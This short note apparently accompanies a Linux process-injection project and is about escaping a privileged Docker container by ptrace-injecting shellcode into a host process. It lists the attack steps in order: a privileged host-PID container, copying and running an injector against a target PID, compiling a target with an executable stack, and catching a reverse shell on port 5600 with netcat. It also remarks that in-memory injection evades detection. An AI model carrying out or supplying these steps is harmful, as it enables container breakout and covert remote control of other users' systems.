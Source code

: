 # Linux Process Injection

- imapct
    - control other process and have same permission as the target process

-Breakout Privileged
    - all
    - actually SYS_PTRACE

- action
    
    (on host)
    - docker run --pid=host --privileged ubuntu:22.04 bash
    - docker cp inject 96f7f14e99ab2:/
    - sudo ./target
    - (in container)
    - ./inject $PID (target PID)
    - nc ip 5600
    
    
- inject and target compile command
    - gcc inject.c -o inject
    - gcc test.c -z execstack -o target

- notice:
    - inject shell code should be modify on different device
    - sample shell code run on linux x86/64 architecture and reflect shell on port 5600

- reference
    - https://0x00sec.org/t/linux-infecting-running-processes/1097

- other
    - since process injection run on memory it hard to be detect